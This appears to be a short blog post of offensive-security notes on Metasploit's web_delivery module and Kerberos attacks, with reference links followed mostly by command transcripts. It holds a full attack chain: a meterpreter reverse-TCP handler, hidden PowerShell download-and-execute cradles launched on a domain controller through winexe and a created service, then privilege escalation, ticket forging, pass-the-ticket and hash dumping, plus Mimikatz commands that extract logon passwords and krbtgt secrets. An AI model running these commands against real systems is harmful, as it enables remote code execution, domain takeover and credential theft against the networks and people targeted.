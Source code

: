 ```yaml
---
layout: post
title: "Metasploit: web_delivery"
date: 2015-07-10 09:33:08 +0900
comments: true
categories: 
---
```


* [mimikatz @ passwords#14](http://www.slideshare.net/gentilkiwi/mimikatz-how-to-push-microsoft-to-change-some-little-stuff)
* [Mimikatz 2.0 - Golden Ticket Walkthrough](http://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html)
* [Abusing Microsoft Kerberos by Alva DUCKWALL & Benjamin DELPY](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)
* [Kerberos tickets](http://www.ietf.org/rfc/rfc4120.txt)
* [RFC4757](http://www.ietf.org/rfc/rfc4757.txt)
* [Microsoft Specific PAC](http://msdn.microsoft.com/library/cc237917.aspx)

```
exploit(web_delivery) > set TARGET 2
exploit(web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp
exploit(web_delivery) > set LHOST 172.16.3.76
exploit(web_delivery) > set LPORT 8686
exploit(web_delivery) > run
[*] Exploit running as background job.

[*] [...] Started reverse handler on 172.16.3.76:8686
[*] [...] Using URL: http://0.0.0.0:8080/moKqrqIYh0
...

$ winexe -k DOMAIN //dc01 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://172.16.3.76:8080/moKqrqIYh0'))"

...
meterpreter > getuid
meterpreter > getsystem
meterpreter > getprivs
meterpreter > portfwd ...

$ python forgeTGT.py ...
$ wine mimikatz.exe "kerberos::clist TGT_... /export" exit

meterpreter > load kiwi
meterpreter > kerberos_ticket_use /root/git/....DOAMIN.kirbi
meterpreter > shell

c:\> sc \\dc01\ create psh binPath="cmd.exe /c powershell -nop -w hidden -c IEK ((new-object net.webclient).downloadstring('172.16.3.76:8080/moKqrqIYh0'))"
c:\> sc \\dc01\ start psh
c:\> sc \\dc01\ delete psh
c:\> exit

meterpreter > background
meterpreter > sessions -i ...
meterpreter > run post/windows/gather/hashdump
meterpreter > run post/windows/gather/credentials/credential_collector
```

mimikatz

```
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::ekeys
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # lsadump::lsa /inject /name:Administrator
mimikatz # sekurlsa::pth /user:Administrator /domain:babo.local /ntlm:cc36...
mimikatz # kerberos::list /export
mimikatz # kerberos::ptt ticket.kirbi
mimikatz # sekurlsa::tickets /export
```

* Kerberos::Overpass-the-hash
* [Kerberos::Pass-the-ticket](http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx)
